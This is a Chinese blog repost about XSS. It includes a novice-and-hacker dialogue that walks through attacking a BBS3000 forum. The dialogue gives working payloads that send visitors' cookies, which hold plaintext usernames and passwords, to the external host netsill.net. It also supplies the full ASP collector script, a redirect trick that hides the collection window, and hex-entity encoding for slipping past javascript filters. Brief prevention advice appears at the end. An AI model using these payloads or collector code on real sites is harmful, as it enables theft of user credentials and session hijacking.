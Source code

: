 # XSS跨站攻击的有关知识 
> 原文发表于 2009-06-01, 地址: http://www.cnblogs.com/chenxizhang/archive/2009/06/01/1493547.html 


<http://www4.it168.com/jtzt/shenlan/safe/xss/>

 XSS又叫CSS (Cross Site Script) ，跨站脚本攻击。它指的是恶意攻击者往Web页面里插入恶意html代码，当用户浏览该页之时，嵌入其中Web里面的html代码会被执行，从而达到恶意用户的特殊目的。XSS属于被动式的攻击，因为其被动且不好利用，所以许多人常呼略其危害性。而本文主要讲的是利用XSS得到目标服务器的shell。技术虽然是老技术，但是其思路希望对大家有帮助。

  

 跨站攻击有多种方式，由HTML语言允许使用脚本进行简单交互，入侵者便通过技术手段在某个页面里插入一个恶意HTML代码——例如记录论坛保存的用户信息（Cookie），由于Cookie保存了完整的用户名和密码资料，用户就会遭受安全损失。当然，攻击者有时也会在网页中加入一些以.JS或.VBS为后尾名的代码时，在我们浏览时，同样我们也会被攻击到。

  

 XSS攻击分成两类，一类是来自内部的攻击，主要指的是利用程序自身的漏洞，构造跨站语句，如:dvbbs的showerror.asp存在的跨站漏洞。另一类则是来来自外部的攻击，主要指的自己构造XSS跨站漏洞网页或者寻找非目标机以外的有跨站漏洞的网页。如当我们要渗透一个站点，我们自己构造一个有跨站漏洞的网页，然后构造跨站语句，通过结合其它技术，如社会工程学等，欺骗目标服务器的管理员打开。

  

 了解XSS的触发条件就先得从HTML（超文本标记语言）开始，我们浏览的网页全部都是基于超文本标记语言创建的，如显示一个超链接：<A HREF="[http://safe.it168.com">IT168](http://safe.it168.com'>it168/)[安全](http://safe.it168.com/)频道</A>。而XSS的原理也就是往HTML中注入脚本，HTML指定了脚本标记<script></script>.在没有过滤字符的情况下，只需要保持完整无错的脚本标记即可触发XSS，假如我们在某个资料表单提交内容,表单提交内容就是某个标记属性所赋的值，我们可以构造如下值来闭和标记来构造完整无错的脚本标记>>>

  

 [一、XSS的触发条件](http://www.ixpub.net/viewthread.php?tid=615957&highlight=%CE%DE%CF%DF%BE%D6%D3%F2%CD%F8)  
　了解XSS的触发条件就先得从HTML（超文本标记语言）开始，我们浏览的网页全部都是基于超文本标记语言创建的，如显示一个超链接：<A HREF="[http://safe.it168.com">IT168](http://safe.it168.com'>it168/)[安全](http://safe.it168.com/)频道</A>。而XSS的原理也就是往HTML中注入脚本，HTML指定了脚本标记<script></script>.在没有过滤字符的情况下，只需要保持完整无错的脚本标记即可触发XSS，假如我们在某个资料表单提交内容,表单提交内容就是某个标记属性所赋的值，我们可以构造如下值来闭和标记来构造完整无错的脚本标记>>>[**全文阅读**](http://publish.it168.com/2007/0704/20070704004201.shtml)

 **二、XSS转码引发的过滤问题**玩过SQL注入的都知道，注入的语句可以转成16进制再赋给一个变量运行，XSS的转码和这个还真有异曲同工之妙，原因是我们的[IE](http://download.it168.com/01/0118/10676/10676_3.shtml)浏览器默认采用的是UNICODE编码，HTML编码可以用&#ASCII方式来写，这种XSS转码支持10进制和16进制，SQL注入转码是将16进制字符串赋给一个变量，而XSS转码则是针对属性所赋的值，下面我就拿<img src="javascript:alert('XSS');">示例：…>>>[**全文阅读**](http://publish.it168.com/2007/0704/20070704004202.shtml)

   
XSS攻击数据流程：

 ![](./images/1493547-5004951.jpg)  

 [![image](./images/1493547-image_thumb.png "image")](http://images.cnblogs.com/cnblogs_com/chenxizhang/WindowsLiveWriter/XSS_9F4C/image_2.png)

  

 下面有一个网络小白与小黑的对话。可以比较简单地理解有关XSS及其攻击方法

  

 菜鸟：前几天，中国浪客联盟的站长欲望之翼，利用跨站攻击在小榕的论坛上获取了很多人的密码，听说就是用你写的一个asp脚本？ Lcx：哈，我也没想到我写的这个asp脚本还有这么大的作用，更没想到小榕论坛还有这个漏洞，早知道的话我也去小榕论坛测试我的asp脚本了，出出风头。这个asp脚本程序很简单，如果你懂得跨站攻击的原理，懂一点点asp知识的话，你就能写出这个asp程序。 菜鸟：什么是跨站攻击？能否简单说一下？ Lcx：按我个人了解的讲一下吧。在国内，我看到最早的跨站攻击资料好像是2000年当时十五岁的初中生小铭在网上贴了一篇文章<<bbs3000存在的安全隐患>>，提到可以在ubb（论坛里常用的一种代码，可以在论坛贴子里起到简单的html效果）嵌入图像代码中写入file://con/con，引起windows98用户访问含有此代码的贴子时造成死机。到2002年，红色警戒小组将服务器网页程序没有过滤或转换用户提交的html代码而形成的漏洞归纳为跨站漏洞，并在此基础上将其内涵延伸从而正式系统定义了跨站攻击的漏洞起源、漏洞成因、漏洞危害及利用方式。小铭提到的bbs3000存在的安全隐患，就是跨站攻击的一个方法了。此时，红色警戒小组已经解散，但他们的旧版网站还在，访问url是[http://c4st.51.net](http://c4st.51.net/)。如果你有兴趣系统学一下跨站攻击，可以登陆他们的网站，里边有丰富的跨站资料。 菜鸟：我常上论坛，我懂得ubb代码，为什么在[img][/img]里写入<file://con/con就会引起造访者死机呢>？ Lcx：在一些论坛里ubb代码的[img]部份转换为html时，[img]http://ip/x.jpg[/img]会转换成<img src=http://ip/x.jpg>。学过html的都知道，<img src=>里可以直接写入javascript语句。如果你写入[img]file://con/con[/img]，转换成html时变成<img src=file://con/con>，由于win98的自身bug，这条语句就会引起win98用户蓝屏。 菜鸟：我好像明白了，你可以在[img][/img]之间写入恶意代码，这就是跨站攻击吧？ Lcx：只能说是跨站攻击里的一个比较重要的入侵方法。 菜鸟：能否实例给我演示一下跨站攻击的这个比较重要的入侵方法？我想弄明白欲望之翼是如何得到别人密码的。我比较菜，你最好图文并貌地给我讲解一下呀。 Lcx：好吧，我在网上四处找了找，终于找到了一个有漏洞的bbs3000论坛，这个论坛的版本比较低，人烟稀少，url是<http://www.0123x.com/cgi-bin/bbs3000/list.cgi>。我就拿它开刀。我注册了一个id:www，密码是wwwwww，然后发了一个贴子，内容是[img]javascript:alert(document.cookie)[/img]，然后访问此贴子，会发生什么呢？看图：： 图中弹出一个对话框，显示的是用户名和密码。这个对话框，也就是www用户在此论坛里的cookie。Bbs3000论坛用户的密码是明文保存在cookie里的。现在无论谁看到这个贴子，都会弹出自己的cookie。现在，我将此贴子进一步修改一下，看图： 我写的代码是[img]javascript:window.open(‘http://www.netsill.net/lcx/info.asp?msg=’+document.cookie)[/img] 其中<http://www.netsill.net/lcx/是我网站空间的一个目录>，info.asp是我写的一个asp脚本用于收集msg后边跟的参数，而参数我们指定的是document.cookie，也就是访问此贴用户的cookie。 Info.asp的代码是： <% testfile=Server.MapPath("lcx.txt") msg=Request("msg") set fs=server.CreateObject("scripting.filesystemobject") set thisfile=fs.OpenTextFile(testfile,8,True,0) thisfile.WriteLine(""&msg& "") thisfile.close set fs = nothing %> 这样所有访问者的cookie都会收集在lcx.txt这个文件里。此时用户再次访问这个贴子时会发生什么？看图吧： 弹出一个页面，这个info.asp程序起作用了。再看看我的网站空间里lcx.txt收集到cookie没有。 我们以www的id访问此贴，果然在lcx.txt里收集到了www的用户名和密码。如果论坛管理员来看此贴呢？我想后果你清楚的。 菜鸟：方法我是看懂了。不过，你的方法太明显了呀，谁也会发现弹出了一个收集cookie的窗口。 Lcx：我是为了你看明白图像才这样做的。我们完全可以将info.asp代码改造一下，使这个弹出窗口不可见。像可以在info.asp代码最下边加上这几行： <script language=vbscript> window.location.href="http://sohu.com" </script> 这样弹出的收集cookie的info.asp窗口就会自动转到sohu.com。当然，如何隐藏你的意图，那就看你写这个info.asp的水平了，方法有很多的。 这个info.asp和有一个同样作用的info.php在我网站里都有下载，地址：http://smallhome.51.net/lcx/wdb/upload/forum1\_f\_632\_1051272537.rar 菜鸟：我学会了，去测试了很多论坛，为什么有的成功，有的不成功？怎样才能使成功率高一点？ Lcx：这就涉及到跨站技巧的问题。像大部份论坛，都过滤了javascript这个字符。有个小技巧是可以利用的，可以在论坛发的贴里将javascript写成ascii码。像j可以写成”&#x6a;” 再如a可以写成”&#x61;”，你可以找一个ascii码表对照修改一下，这样成功率能高一点。还有，你要学会分析一下对方的ubb代码。像动网5.0以下论坛，你在[img]里写入和bbs3000一样的代码就不会成功，因为动网5.0以下，ubb代码http://这个地方当成图片地址了，结你提交的代码被分成了两段javascript:window.open('和http://www.netsill.net/lcx/info.asp?msg='+document.cookie);，以至于我们提交的代码丧失了功能。难道就不能攻击了吗？当然不是，我们可以变换种方式提交，代码如下：  
[img]javascript:window.open('&#x68;tt&#x70;://www.netsill.net/lcx/info.asp?msg='+document.cookie);[/img] 看到区别了吧，这段代码把http中的h和p转换成了ascii码html格式&#x68;和&#x70;，提交后，轮坛并没有找到http，所以我们提交的代码就不会分家了,达到了攻击的目的。总之，还是要学会多多分析多动脑筋。另外，也不是所有论坛的cookie都存有用户名和密码的。 菜鸟：跨站攻击是不是就是在[img]里写代码呀？ Lcx：一开始就和你说不是了呀。它的危害有很多，像伪造页面信息、拒绝服务攻击打开无穷窗口、与其它漏洞结合，修改系统设置，查看系统文件，执行系统命令等。这些入侵方法，都等待你用聪明才智来学习和进一步发现呢。当然，我侧重在这里讲的是如何利用[img]作文章，这也是跨站攻击一个有趣而且很重要的攻击方法。至于如何利用其它方法入侵，你上[http://cs4t.51.net](http://cs4t.51.net/)去学习了解一下吧，有许多跨站文章讲得都很清楚，限于篇幅，我就不讲述了。 菜鸟：说了这么多，我也很害怕被跨站攻击，如何预防它呢？ **Lcx：如果你开论坛或办网站的话，最重要的是要在表单输入处过滤掉一些敏感字符。像javascript/<script>/’/;/&/#了等等，当然前提是你的网页程序还要正常运行。作为个人用户，老生常谈了，不要轻易打开一些不明url，要将自己的信箱、论坛、QQ等资料的密码设的都不一样，如果一旦资料或密码被盗，避免引连锁反应，所有资料和密码都被别人获得。** 菜鸟：好像我对跨站攻击有了一点兴致，学会了一种攻击方法。 Lcx：hehe,我也就会这么多。J 























































































